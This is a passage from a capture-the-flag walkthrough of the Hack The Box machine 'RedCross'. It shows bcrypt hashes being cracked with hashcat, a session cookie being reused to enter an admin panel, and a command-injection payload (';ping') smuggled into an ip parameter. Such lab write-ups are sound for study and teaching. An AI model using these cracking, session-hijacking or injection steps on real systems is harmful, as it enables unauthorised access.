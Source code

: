 - admin:$2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq.
- penelope:$2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS
- charles:$2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i
- tricia:$2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r.'
- guest:$2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi'

Lets try cracking the hashes with **Hashcat**:
```
hashcat -m 3200 --username redcross.hash /usr/share/wordlists/rockyou.txt
```

The hash of _charles_ gets cracked and the password is:
> cookiemonster

With these credentials it is possible to login into the web page and there are some more messages.
The messages say, that there are problems with the _"Admin webpanel"_ which is the probably the subdomain _admin.redcross.htb_ found earlier.

### Exploiting admin.redcross.htb

On _admin.redcross.htb_ is a login form to the IT Admin panel:

![IT Admin panel](https://kyuu-ji.github.io/htb-write-up/redcross/redcross_web-3.png)

No found credentials work on the login page, but the password of _charles_ could be a hint to do something with **Cookies**.
By copying the current **PHPSESSID cookie** of _charles_ and using them on the _admin.redcross.htb_ page, it logs us in directly into the web panel.

There are two features on this admin panel:
- User Management
  - Allows to add an user
- Network Access
  - Allows to whitelist IP addresses

When creating a user, it automatically generates a password:
```
Provide this credentials to the user:
testuser : Z71Jb366
```

This user does not work on any of the web services but instead on SSH:
```
ssh testuser@10.10.10.113
```

The shell is very restricted, as it does not show default directories and also does not allow many commands, so lets look into the other feature.
The feature _Network Access_ allows to whitelist IP addresses and after sending mine, it shows that it runs `iptables` in the background:
```
DEBUG: All checks passed... Executing iptables Network access granted to 10.10.14.6 Network access granted to 10.10.14.6
```

The web request sends and ip, id and an action.
After trying to append commands to all parameters to get **command injection**, the action _deny_ and the parameter _ip_ allow executing system commands:
```
POST /pages/actions.php HTTP/1.1
(...)
ip=10.10.14.6;ping+-c+1+10.10.14.6&id=12&action=deny
```
